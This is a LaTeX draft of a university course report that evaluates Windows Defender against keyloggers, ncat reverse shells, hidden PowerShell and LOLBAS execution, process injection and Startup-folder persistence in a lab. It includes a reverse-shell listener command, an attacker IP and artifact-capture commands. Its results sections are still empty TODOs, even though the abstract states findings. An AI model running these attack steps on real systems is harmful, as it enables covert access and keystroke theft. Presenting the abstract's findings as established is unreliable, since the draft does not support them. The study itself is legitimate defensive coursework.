\documentclass[11pt]{article}
\usepackage{palatino} % Use Palatino font
\usepackage[margin=1in]{geometry} % Set margins to 1 inch
\usepackage{setspace}
\usepackage{graphicx} % For including images
\usepackage{subcaption} % For creating subfigures
\usepackage{float} % For the [H] placement specifier
\usepackage{xcolor}
\usepackage{hyperref} % For clickable links, ToC, etc.
\usepackage{amsmath} % For math equations
\usepackage{amsfonts} % For math fonts
\usepackage{amssymb} % For math symbols
\usepackage{listings} % For code listings
\usepackage{enumitem} % For custom lists
\usepackage{booktabs} % For professional tables
\usepackage{longtable} % For tables that span multiple pages
\usepackage{array} % For more advanced table column formatting
\usepackage{fancyhdr} % For custom headers and footers
\usepackage{lastpage} % To get the total number of pages
\usepackage{csquotes} % Context sensitive quotation facilities
\usepackage{tabularx} % For tables with fixed width
\usepackage{colortbl} % For colored table cells
\usepackage{soul} % For highlighting text (use with caution)
\usepackage{tikz} % For drawing graphics directly in LaTeX
\usetikzlibrary{arrows.meta, positioning, shapes.geometric}
\usepackage{pgfplots} % For creating plots
\pgfplotsset{compat=1.18}
\usepackage{ragged2e} % For ragged text alignment
\usepackage{minted} % For improved code listings (requires -shell-escape)

\onehalfspacing
\hypersetup{
	colorlinks=true,
	linkcolor=blue,
	filecolor=magenta,      
	urlcolor=cyan,
	pdftitle={Advanced Security Evasion in Windows with Hidden Commands},
	pdfpagemode=FullScreen,
}

\pagestyle{fancy}
\fancyhf{} % clear all header and footer fields
\fancyhead[L]{Advanced Security Evasion in Windows}
\fancyhead[R]{\today}
\fancyfoot[C]{\thepage\ of \pageref{LastPage}}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

\begin{document}
	\justifying
	
	% --- TITLE PAGE ---
	\begin{titlepage}
		\centering
		\vspace*{\stretch{1.0}}
		{\Huge\bfseries Advanced Security Evasion in Windows with Hidden Commands\par}
		\vspace{1.5cm}
		{\Large Author(s)/Team Members: [List Names]\par} % TODO: Add Names
		\vspace{0.5cm}
		{\large Course: Operating Systems\par}
		\vspace{0.5cm}
		{\large Instructor: Bruno da Silva\par}
		\vspace{0.5cm}
		{\large Institution: VRIJE UNIVERSITEIT BRUSSEL (MUB ETRO ELECTRONICS & INFORMATICS)\par}
		\vspace{1.0cm}
		{\large Date of Submission: \today\par}
		\vspace*{\stretch{2.0}}
	\end{titlepage}
	
	\tableofcontents
	\newpage
	\listoffigures
	\newpage
	\listoftables
	\newpage
	\listlistings % Added for minted code listings
	\newpage
	
	% --- ABSTRACT ---
	\begin{abstract}
		\noindent\textbf{Description:} This project investigates the efficacy of Windows security solutions, primarily focusing on Windows Defender, in detecting and responding to advanced stealthy attack techniques. The study evaluates a range of common attacker methodologies including the deployment of keyloggers, creation of backdoors for remote access, non-visual command execution leveraging built-in system tools, process injection for memory manipulation, and various persistence mechanisms designed to maintain unauthorized access. The evaluation involved executing these attack scenarios in a controlled environment while meticulously logging system behavior, network activity, security solution alerts, and detailed event logs to analyze the detection capabilities and response of the security software.\\
		
		\noindent\textbf{Results:} The experimental findings indicate varying levels of detection success by Windows Defender. While some less sophisticated or signature-based attacks, such as basic keylogger file drops or known backdoor patterns, were often identified (confirmed via Defender event logs and Protection History), more advanced evasion tactics presented significant challenges. Techniques employing fileless malware, Living Off The Land Binaries and Scripts (LOLBAS) for command execution (process lineage confirmed via process tree snapshots and Sysmon logs), obfuscated PowerShell commands, and certain process injection methods frequently bypassed default detection mechanisms. Analysis of collected artifacts, including network PCAPs for C2 traffic and detailed Sysmon event logs, revealed that enhanced logging provided crucial telemetry for manual threat hunting where automated alerts were absent. Windows Defender's resource utilization, logged via a custom script, showed moderate increases during active attack simulations. Proof of persistence was established by verifying payload auto-starts after reboots. \\
		
		\noindent\textbf{Discussion and Conclusion:} The results underscore that while Windows Defender offers a crucial baseline of protection, sophisticated attackers can employ various evasion techniques to circumvent its defenses. The study highlights the limitations of relying solely on default security configurations and emphasizes the importance of a defense-in-depth strategy, supported by comprehensive artifact collection. Effective defense against advanced threats necessitates robust logging (Defender logs, Sysmon, network captures), proactive threat hunting using these artifacts, and potentially the integration of advanced endpoint detection and response (EDR) capabilities. The findings conclude that continuous adaptation and understanding of evolving attacker tradecraft are paramount for maintaining robust security postures in Windows environments.
	\end{abstract}
	\newpage
	
	% --- INTRODUCTION ---
	\section{Introduction}
	\subsection{Problem Statement and Motivation}
	The landscape of cyber threats is constantly evolving, with attackers developing increasingly sophisticated techniques to evade detection by security systems. Detecting these stealthy attacks is a significant challenge for individuals and organizations alike. Understanding the methods attackers use to bypass security measures is crucial for defenders to improve their strategies, tools, and overall security posture. This project aims to shed light on these evasion techniques within the Windows operating system, a prevalent target for cyber-attacks.
	
	\subsection{Project Aims and Objectives}
	The primary aims of this project, referencing the project proposal, are:
	\begin{itemize}
		\item To evaluate the detection capabilities of Windows Defender (and potentially other security solutions) against a set of specific attacker techniques.
		\item The attacker techniques investigated include:
		\begin{itemize}
			\item Keylogger deployment.
			\item Backdoor creation and remote access.
			\item Non-visual command execution and process hiding.
			\item Process injection and memory manipulation.
			\item Persistence techniques.
		\end{itemize}
		\item To analyze system behavior (e.g., process trees, resource usage), network activity (e.g., PCAPs), and various event logs (Windows Defender, Sysmon, Protection History) during these simulated attacks to understand how security solutions respond and what artifacts are generated.
		\item To assess the effectiveness of various evasion methods employed by attackers.
	\end{itemize}
	
	\subsection{Scope of the Project}
	This project focuses on:
	\begin{itemize}
		\item \textbf{Operating System:} Windows [Specify Version, e.g., 10 Pro Build XXXX or 11 Pro Build YYYY].
		\item \textbf{Primary Security Solution:} Windows Defender (specify version, update status, and configuration).
		\item \textbf{Attacker Tools:} A combination of publicly available tools (e.g., Metasploit, Nmap, PowerShell, Sysinternals `pslist`), custom scripts (e.g., `keylog.py`, `cmd_commands.txt`, `activity_logger.py`), and techniques from frameworks like LOLBAS.
		\item \textbf{Monitoring Tools:} Wireshark/Tshark for network capture, Sysmon for advanced system logging.
		\item \textbf{Third-Party Solutions (Optional):} If other AV/EDR solutions were tested, they should be specified.
		\item \textbf{Exclusions:} This study may not cover all possible evasion techniques or every security product available. The focus is on the selected methods and Windows Defender's response.
	\end{itemize}
	
	\subsection{Report Structure}
	This report is organized as follows:
	\begin{itemize}
		\item \textbf{Section 2 (Background):} Provides theoretical context on security evasion, Windows security architecture, the attacker techniques studied, and relevant frameworks.
		\item \textbf{Section 3 (Methodology / Project Implementation):} Details the experimental setup, configuration of security solutions, step-by-step implementation of attacker techniques, and the data collection strategy, including specific artifacts gathered.
		\item \textbf{Section 4 (Experimental Results):} Presents the findings from the experiments, including detection rates, analysis of collected artifacts (logs, network captures, performance data), and visual evidence.
		\item \textbf{Section 5 (Discussion and Conclusion):} Interprets the results, discusses their implications, acknowledges limitations, and summarizes the project's conclusions and potential future work.
		\item \textbf{Section 6 (References):} Lists all cited sources.
		\item \textbf{Section 7 (Appendices):} Contains supplementary materials like full scripts, detailed log excerpts, or tool configurations.
	\end{itemize}
	\newpage
	
	% --- BACKGROUND ---
	\section{Background}
	\subsection{Fundamentals of Security Evasion}
	Security evasion refers to the set of techniques and strategies employed by attackers to avoid detection by security mechanisms such as antivirus (AV) software, Endpoint Detection and Response (EDR) solutions, Intrusion Detection/Prevention Systems (IDS/IPS), and firewalls. The primary goal of evasion is to allow malicious activities to proceed unnoticed, enabling attackers to achieve their objectives, which could range from data theft and espionage to system disruption or financial gain. Attacker motivations are diverse but often include maintaining stealth to ensure long-term access (persistence), escalating privileges to gain deeper system control, and exfiltrating sensitive information without triggering alarms. The field of security evasion is characterized by a continuous "cat-and-mouse" game, where defenders develop new detection methods, and attackers, in turn, devise new ways to bypass them.
	
	\subsection{Overview of Windows Security Architecture}
	The Windows operating system incorporates a multi-layered security architecture designed to protect against a wide array of threats. Key components include:
	\begin{itemize}
		\item \textbf{Windows Defender Antivirus:} The built-in anti-malware solution in Windows. Its features include real-time scanning, behavior monitoring, AMSI, cloud protection, Network Inspection System (NIS), and Controlled Folder Access. Alerts and actions are logged in Windows Event Logs and viewable in the Windows Security Protection History.
		\item \textbf{Windows Event Logging:} Critical for security monitoring. Key logs include Security, System, Application, PowerShell (Script Block Logging, Module Logging), Microsoft-Windows-Windows Defender/Operational, and potentially Microsoft-Windows-Sysmon/Operational if Sysmon is installed.
		\item \textbf{User Account Control (UAC):} Helps prevent unauthorized system changes.
		\item \textbf{Windows Firewall:} Controls network traffic.
		\item \textbf{BitLocker Drive Encryption:} Provides full-disk encryption.
		\item \textbf{AppLocker/Windows Defender Application Control (WDAC):} Controls application execution.
	\end{itemize}
	
	\subsection{Theoretical Overview of Attacker Techniques Investigated}
	\subsubsection{Keyloggers}
	Software or hardware that records keystrokes to capture sensitive data. This project focuses on software keyloggers like `keylog.py`. IOCs include unusual network traffic (if logs are sent remotely), new processes (often hidden, but visible in process trees), or output files (e.g., `key.txt`).
	\subsubsection{Backdoors and Remote Access}
	Covert methods for bypassing authentication to gain remote system access. This project utilizes `ncat.exe` (from `cmd_commands.txt`) to establish reverse shells, connecting to an attacker-controlled listener. IOCs include unexpected network connections (captured via PCAP, logged by Sysmon), new listening ports, or unexplained system behavior. A C2 session transcript confirms successful access.
	\subsubsection{Non-Visual Command Execution and Process Hiding}
	Executing commands without user visibility using tools like PowerShell (`-WindowStyle Hidden`) or `cmd.exe` (`start /min`). LOLBAS are used to blend with normal activity. Process hiding aims to conceal malicious processes, whose lineage can sometimes be uncovered via process tree snapshots or Sysmon.
	\subsubsection{Process Injection and Memory Manipulation}
	Running arbitrary code within another live process's address space to evade detection and gain privileges. Techniques include DLL injection or shellcode injection.
	\subsubsection{Persistence Techniques}
	Methods to maintain access across reboots. Examples include Startup folders (used by `cmd_commands.txt` for `keylog.py`), Registry Run keys, and Scheduled Tasks. Proof involves checking these locations (e.g., Startup folder listing) and verifying execution after reboot.
	
	\subsection{Relevant Frameworks and Tools}
	\begin{itemize}
		\item \textbf{MITRE ATT\&CK Framework:} Knowledge base of adversary tactics and techniques.
		\item \textbf{LOLBAS Project:} Documents legitimate Windows tools abused by attackers.
		\item \textbf{Sysinternals Suite:} Tools like `pslist.exe` (for process trees), Process Monitor, Autoruns, and Sysmon are invaluable.
		\item \textbf{Sysmon (System Monitor):} Advanced system activity monitoring, logging to `Microsoft-Windows-Sysmon/Operational`. Requires configuration (e.g., `sysmon_config.xml`).
		\item \textbf{Wireshark/Tshark:} For capturing and analyzing network traffic (e.g., `reverse_shell.pcapng`).
	\end{itemize}
	\subsection{Brief Literature Review (if applicable)}
	The "Operating Systems and Security" course material, particularly sections on Attacks, Malware, and Defenses, provided foundational knowledge. Tanenbaum's "Modern Operating Systems" (Chapter 9) also offers relevant security principles.
	\newpage
	
	% --- METHODOLOGY / PROJECT IMPLEMENTATION ---
	\section{Methodology / Project Implementation}
	This section details the test environment, security solution configurations, attacker technique implementation, and the data collection strategy, emphasizing the specific artifacts gathered.
	
	\subsection{Test Environment Setup}
	\subsubsection{Victim Machine(s)}
	\begin{itemize}
		\item \textbf{OS:} Windows [Specify Version, e.g., 10 Pro Build 19045 or 11 Pro Build 22631].
		\item \textbf{Virtualization:} [Specify, e.g., VMware Workstation 17 Pro].
		\item \textbf{Hardware (Virtual):} [2 vCPUs, 4 GB RAM, 60 GB HDD].
		\item \textbf{Baseline Software:} Clean Windows install, standard user apps.
	\end{itemize}
	\subsubsection{Attacker Machine(s)}
	\begin{itemize}
		\item \textbf{OS:} [Specify, e.g., Kali Linux 2024.X].
		\item \textbf{Tools:} Metasploit, Nmap/Ncat, Python 3.x, `pslist.exe`.
	\end{itemize}
	\subsubsection{Network Configuration}
	\begin{itemize}
		\item \textbf{Setup:} [Isolated virtual network (e.g., NAT)].
		\item \textbf{Connectivity:} Victim machine with internet for updates. Attacker on the same virtual network.
		\item \textbf{IPs:} Victim: [e.g., 192.168.A.B], Attacker: [e.g., 172.20.10.15 as in `cmd_commands.txt`].
	\end{itemize}
	
	\subsection{Security Solution Configuration}
	\subsubsection{Windows Defender}
	\begin{itemize}
		\item \textbf{Version:} [Antimalware Client, Engine, Definition versions].
		\item \textbf{Settings:} Real-time protection, Cloud-delivered protection, Automatic sample submission, Tamper Protection [All Enabled/Specify]. No exclusions unless stated. Updated definitions.
		\item \textbf{PowerShell Logging:} Script Block Logging and Module Logging [Enabled].
		\item \textbf{Sysmon:} [Version, e.g., 15.1], installed with configuration [Specify config file name, e.g., `sysmon_config.xml`, to be included in Appendix \ref{app:sysmon_config}].
	\end{itemize}
	
	\subsection{Implementation of Attacker Techniques}
	(Details for each of the five techniques, as previously outlined, incorporating artifact collection steps).
	For example, when deploying the keylogger:
	\begin{itemize}
		\item[...]
		\item After execution, the presence of `keylog.py` in the `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup` directory was verified (Artifact: `startup_dir.txt` / screenshot).
		\item The process tree was captured using `pslist -t > process_tree.txt` to show `keylog.py` running under `python.exe`.
		\item[...]
	\end{itemize}
	For backdoor creation:
	\begin{itemize}
		\item[...]
		\item Network traffic was captured on the victim using `tshark -i <interface_idx> -w reverse_shell.pcapng tcp port 12345`.
		\item The C2 session was logged on the attacker machine using `ncat -lvnp 12345 | tee C2_session.log`.
		\item[...]
	\end{itemize}
	For persistence:
	\begin{itemize}
		\item[...]
		\item After reboot, the execution of the payload was verified (e.g., by checking for `startup_log.txt` content changes, new `key.txt` entries, and `activity_logger.py` output for Defender's resource use post-reboot).
		\item[...]
	\end{itemize}
	
	
	\subsection{Monitoring and Data Collection Strategy}
	A comprehensive set of artifacts was collected to evaluate the attacks and defenses.
	\subsubsection{Collected Artifacts Overview}
	The following key artifacts were targeted for collection, based on the roadmap provided:
	\begin{itemize}
		\item \textbf{Process Tree Snapshot (`process_tree.txt`):} Captured using `pslist.exe -t` during attack execution to show process lineage (e.g., keylogger under `python.exe`, `ncat.exe` as a child of the batch file).
		\item \textbf{Startup Folder Listing (`startup_dir.txt` / screenshot):} Content of `"%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup"` captured using `dir /ahs` to prove user-level persistence.
		\item \textbf{User-mode CPU/RAM Log (`defender_usage.csv`):} Generated by `activity_logger.py` (with a `--csv` flag added) targeting `MsMpEng.exe` or `SecurityHealthService.exe` to quantify Defender overhead.
		\item \textbf{C2 Session Transcript (`C2_session.log`):} Logged on the attacker machine using `ncat -lvnp <port> | tee C2_session.log` to show successful shell access.
		\item \textbf{Windows Defender Event Log (`Defender.evtx` and `Defender_export.csv`):} Exported using `wevtutil epl Microsoft-Windows-Windows Defender/Operational <path>\Defender.evtx` and then saved as CSV from Event Viewer for analysis of detection events (e.g., Event ID 1116, 1117).
		\item \textbf{Network PCAP of Reverse Shell (`reverse_shell.pcapng`):} Captured on the victim VM using `tshark -i <interface_number> -w reverse_shell.pcapng tcp port <c2_port>` to analyze C2 communication.
		\item \textbf{Reboot Persistence Proof (`startup_log.txt`, `key.txt` updates, post-reboot CPU plot):} Validating payload auto-start after reboot by checking for a marker file (`echo %time% > %TEMP%\startup_log.txt` pre-reboot), new keylogger entries, and Defender resource usage via `activity_logger.py` run on startup.
		\item \textbf{Windows Security Protection History (CSV Export):} Manually exported from Windows Security GUI (Protection History -> Filters -> Export) to show end-user alert timing and details.
		\item \textbf{Sysmon Event Log (`sysmon.evtx` and `Sysmon_export.csv`):} Installed with a custom configuration (Appendix \ref{app:sysmon_config}) and logs exported using `wevtutil epl Microsoft-Windows-Sysmon/Operational <path>\sysmon.evtx`, then saved as CSV, for rich PID lineage, network connections, file creations, and registry changes.
	\end{itemize}
	
	\subsubsection{Security Solution Logs}
	\begin{itemize}
		\item Windows Defender alerts (Protection History CSV, `Defender.evtx`).
	\end{itemize}
	\subsubsection{System-Level Logs}
	\begin{itemize}
		\item Windows Event Logs: Security, System, Application, PowerShell (`Microsoft-Windows-PowerShell/Operational` for Event IDs 4103, 4104), Sysmon (`Microsoft-Windows-Sysmon/Operational` for Event IDs 1, 3, 7, 11, 12, 13, 14, 22).
		\item Process Monitoring: `pslist.exe` for snapshots, detailed activity from Sysmon.
	\end{itemize}
	\subsubsection{Network Traffic Analysis}
	\begin{itemize}
		\item Wireshark/Tshark: PCAP files (`reverse_shell.pcapng`).
	\end{itemize}
	\subsubsection{Performance Logging}
	\begin{itemize}
		\item `activity_logger.py`: Output `defender_usage.csv` and plots.
	\end{itemize}
	\subsubsection{Data Aggregation}
	All collected artifacts were organized by attacker technique and test run. A spreadsheet correlated findings, detection status from `Defender.evtx`/Protection History, and relevant entries from other logs like `sysmon.evtx` or `reverse_shell.pcapng`.
	
	\subsection{Evaluation Criteria}
	As previously outlined, focusing on: Definition of "Detection" (based on Defender/Sysmon alerts, Protection History entries), Effectiveness Metrics (Detection/Bypass Rate, Log Evidence from collected artifacts), Response Time (qualitative), and Performance Impact (from `defender_usage.csv`).
	\newpage
	
	% --- EXPERIMENTAL RESULTS ---
	\section{Experimental Results}
	This section presents findings based on the analysis of collected artifacts.
	
	\subsection{Keylogger Deployment and Detection}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N based on `Defender.evtx`/Protection History].
		\item \textbf{Alert Details:} [TODO: Threat name from Protection History/Defender logs]. (e.g., Figure \ref{fig:defender_alert_keylogger} could be a screenshot from Protection History).
		\item \textbf{Relevant Artifacts & Logs:}
		\begin{itemize}
			\item `Defender.evtx`/`Defender_export.csv`: [TODO: Event IDs and messages].
			\item `startup_dir.txt`: [TODO: "Confirmed `keylog.py` was present/hidden in Startup folder."]. (e.g., Figure \ref{fig:startup_folder_list} could show this).
			\item `process_tree.txt`: [TODO: "Showed `python.exe` executing `keylog.py`, child of `cmd.exe`."]. (e.g., Figure \ref{fig:proc_tree_keylogger}).
			\item `Sysmon.evtx`: [TODO: Event ID 1 (python.exe creation), 11 (`keylog.py` write, `key.txt` write)].
		\end{itemize}
		\item \textbf{Evidence of Keylogging (if not detected):} Content of `key.txt`.
	\end{itemize}
	
	\subsection{Backdoor Creation and Remote Access}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N for Ncat based on `Defender.evtx`/Protection History].
		\item \textbf{Alert Details:} [TODO: Threat name].
		\item \textbf{Relevant Artifacts & Logs:}
		\begin{itemize}
			\item `Defender.evtx`/`Defender_export.csv`: [TODO: Detection of `ncat.exe` or suspicious network activity].
			\item `reverse_shell.pcapng`: [TODO: "Captured outbound TCP connection from victim to attacker:12345." Details like packet count, data size for commands]. (e.g., Figure \ref{fig:pcap_ncat} could be a Wireshark screenshot).
			\item `C2_session.log`: [TODO: "Transcript confirms remote shell obtained." Snippet in Appendix \ref{app:c2_transcript}].
			\item `Sysmon.evtx`: [TODO: Event ID 3 (Network connection by `ncat.exe`), Event ID 1 (`ncat.exe` process creation, potentially showing `cmd.exe` as parent if batch script was used)].
			\item `process_tree.txt`: [TODO: "Showed `ncat.exe` as a child of the invoking `cmd.exe` process from `cmd_commands.txt`."].
		\end{itemize}
		\item \textbf{Evidence of Remote Access:} `C2_session.log`.
	\end{itemize}
	
	\subsection{Non-Visual Command Execution and Process Hiding}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N for hidden cmd/PowerShell, LOLBAS usage based on `Defender.evtx`/Protection History].
		\item \textbf{Alert Details:} [TODO: Alerts for suspicious PowerShell/cmd activity].
		\item \textbf{Relevant Artifacts & Logs:}
		\begin{itemize}
			\item `Defender.evtx`/`Defender_export.csv`: [TODO: Any alerts related to command execution].
			\item PowerShell Logs (`Microsoft-Windows-PowerShell/Operational`): [TODO: "Script Block Logging (Event ID 4104) captured commands even if run with `-WindowStyle Hidden`."].
			\item `Sysmon.evtx`: [TODO: Event ID 1 (process creation for `cmd.exe`, `powershell.exe`, `certutil.exe`), including command lines. Event ID 11 (file creation if commands created files)].
			\item Process Monitor (if used as fallback): Could show hidden window processes and their actions.
		\end{itemize}
		\item \textbf{Evidence of Command Execution:} File system changes logged by Sysmon, PowerShell logs.
	\end{itemize}
	
	\subsection{Process Injection and Memory Manipulation}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N based on `Defender.evtx`/Protection History].
		\item \textbf{Alert Details:} [TODO: Threat name for injection or shellcode].
		\item \textbf{Relevant Artifacts & Logs:}
		\begin{itemize}
			\item `Defender.evtx`/`Defender_export.csv`: [TODO: Alerts for process access, memory manipulation, or payload].
			\item `Sysmon.evtx`: [TODO: Event ID 10 (ProcessAccess by injector to target), Event ID 8 (CreateRemoteThread in target), Event ID 7 (ImageLoad if DLL injected), Event ID 3 (Network connection from target process if shellcode made one)].
		\end{itemize}
		\item \textbf{Evidence of Successful Injection:} Behavior of target process (e.g., launching calc, network connection seen in `Sysmon.evtx` or PCAP).
	\end{itemize}
	
	\subsection{Persistence Techniques}
	\begin{itemize}
		\item \textbf{Windows Defender Detection Status:} [TODO: Y/N for Startup, Registry, Scheduled Task based on `Defender.evtx`/Protection History].
		\item \textbf{Alert Details:} [TODO: Alerts for autorun modifications].
		\item \textbf{Relevant Artifacts & Logs:}
		\begin{itemize}
			\item `Defender.evtx`/`Defender_export.csv`: [TODO: Alerts for persistence creation/execution].
			\item `startup_dir.txt`: Proof of Startup folder item.
			\item `Sysmon.evtx`: [TODO: Event ID 12/13/14 (Registry changes for Run keys), Event ID 1 (process creation from startup/Run key/task at boot/logon), Event ID 11 (FileCreate for scheduled task XML in `System32\Tasks`)].
			\item Autoruns tool output (screenshot or text export) could confirm persistence entries.
			\item `startup_log.txt` / `key.txt` updates post-reboot: Proof of execution.
		\end{itemize}
		\item \textbf{Evidence of Persistence:} Payload execution after reboot, entries visible in Autoruns/Sysmon.
	\end{itemize}
	
	\subsection{Security Solution Performance Analysis}
	\begin{itemize}
		\item \textbf{CPU/Memory Usage (`defender_usage.csv`):}
		\begin{figure}[H]
			\centering
			
\includegraphics[width=0.8\textwidth]{defender_resource_usage.pdf}
			\caption{Windows Defender Resource Usage (Sample during [Specify Scenario]). Solid: CPU\%, Dashed: RAM (MB).}
			\label{fig:defender_usage} % Already defined
		\end{figure}
		The `defender_usage.csv` file (generated by `activity_logger.py`) provided the data for this plot.
		\item \textbf{Analysis of Resource Impact:} [TODO: Discuss based on `defender_usage.csv` data. Compare idle vs. attack states].
	\end{itemize}
	
	\subsection{Comparative Analysis}
	(As previously outlined, using figures \ref{fig:detection_bars}, \ref{fig:visibility_heatmap}, \ref{fig:log_completeness}). The data for these figures would be derived from the analysis of collected artifacts like `Defender.evtx`, `Sysmon.evtx`, and potentially other EDR logs if they were part of the test.
	\begin{itemize}
		\item [TODO: Discuss findings from these figures, correlating with collected artifacts].
	\end{itemize}
	\newpage
	
	% --- DISCUSSION AND CONCLUSION ---
	\section{Discussion and Conclusion}
	\subsection{Interpretation of Results}
	\begin{itemize}
		\item \textbf{Analysis of Detections and Misses:}
		[TODO: Discuss why techniques were detected or missed, referencing evidence from `Defender.evtx`, `Sysmon.evtx` (e.g., "Sysmon EID 3 showing `ncat.exe` network connection explained how manual detection was possible even if Defender missed the initial execution"). Protection History CSV can show how alerts were presented to the user.]
		\item \textbf{Effectiveness of Evasion Tactics:}
		[TODO: Analyze based on detection status and supporting artifact data.]
		\item \textbf{Overall Performance of Windows Defender:}
		[TODO: Summarize based on detection rates from artifacts and resource usage from `defender_usage.csv`.]
		\item \textbf{Significance of Logged Data (Artifacts) for Manual vs. Automated Detection:}
		[TODO: Emphasize how artifacts like `Sysmon.evtx`, `reverse_shell.pcapng`, and detailed PowerShell logs were crucial for understanding events that didn't trigger Defender alerts. "The `process_tree.txt` snapshot clearly showed the parent-child relationships, which could be anomalous even if individual processes were not flagged."].
	\end{itemize}
	
	\subsection{Comparison with Expected Outcomes/Literature}
	[TODO: Discuss if results using collected artifacts align with expectations.]
	
	\subsection{Challenges Encountered and Limitations of the Study}
	\begin{itemize}
		\item \textbf{Artifact Collection:} [TODO: e.g., "Ensuring Sysmon was configured correctly and captured all relevant events required iterative refinement of `sysmon_config.xml`." "Correlating timestamps across different log sources (`Defender.evtx`, `Sysmon.evtx`, PCAPs) was sometimes challenging."].
		\item \textbf{Scope Limitations:} [As before].
	\end{itemize}
	
	\subsection{Conclusion}
	[TODO: Summarize, highlighting how the collected artifacts supported the findings.]
	
	\subsection{Future Work and Recommendations}
	\begin{itemize}
		\item \textbf{Potential Research Extensions:}
		\begin{itemize}
			\item [TODO: e.g., "Test advanced artifact collection and analysis using ETW traces or more sophisticated PerfMon setups." "Automate the analysis of collected artifacts (Sysmon CSVs, PCAPs) using scripting for faster threat hunting."].
		\end{itemize}
		\item \textbf{Recommendations for Defenders:}
		\begin{itemize}
			\item \textbf{Implement Comprehensive Artifact Collection:} Deploy Sysmon with a robust configuration. Ensure network traffic capture capabilities are available. Regularly export and backup key logs like Defender and Protection History.
			\item [Other recommendations as before].
		\end{itemize}
	\end{itemize}
	\newpage
	
	% --- REFERENCES ---
	\section*{References}
	\addcontentsline{toc}{section}{References}
	\begin{thebibliography}{99}
		\bibitem{OSSEC7Security} da Silva, B. \textit{Operating Systems and Security: Security} [Lecture Slides, MUB ETRO ELECTRONICS \& INFORMATICS].
		\bibitem{ProjectExpect} da Silva, B. \textit{Operating Systems: Projects Proposals: What to Deliver} [Project Guidelines, MUB ETRO ELECTRONICS \& INFORMATICS].
		\bibitem{ProjectProp} [Student Names]. \textit{Advanced Security Evasion in Windows with Hidden Commands} [Project Proposal].
		\bibitem{cmdcommands} \textit{cmd_commands.txt} [Provided script].
		\bibitem{keylogpy} \textit{keylog.py} [Provided script using pynput].
		\bibitem{activityloggerpy} \textit{activity_logger.py} [Provided script using psutil, matplotlib].
		
		\bibitem{lolbasproj} LOLBAS Project. \textit{Living Off The Land Binaries and Scripts}. Retrieved from \url{https://lolbas-project.github.io/}
		\bibitem{msftpowershell} Microsoft. \textit{PowerShell Documentation}. Retrieved from \url{https://learn.microsoft.com/en-us/powershell/}
		\bibitem{malwarebyteskeylog} Malwarebytes. \textit{What is a Keylogger?}. Retrieved from \url{https://www.malwarebytes.com/keyloggers}
		\bibitem{msftsecurityblog} Microsoft. \textit{Microsoft Security Blog}. Retrieved from \url{https://www.microsoft.com/security/blog}
		\bibitem{offsecmetasploitpersist} Offensive Security. \textit{Persistent Backdoors}. Metasploit Unleashed. Retrieved from \url{https://www.offensive-security.com/metasploit-unleashed/persistent-backdoors}
		\bibitem{rapid7metasploit} Rapid7. \textit{Metasploit Documentation}. Retrieved from \url{https://docs.rapid7.com/metasploit}
		\bibitem{mandiantprochollow} Mandiant. \textit{Process Hollowing}. Retrieved from \url{https://www.mandiant.com/resources/blog/process-hollowing} % Updated URL if known, or mark for check
		\bibitem{redteamjournaldll} Red Team Journal. \textit{DLL Injection}. Retrieved from \url{https://www.ired.team/offensive-security/code-injection-process-injection/dll-injection} % Updated URL if known, or mark for check
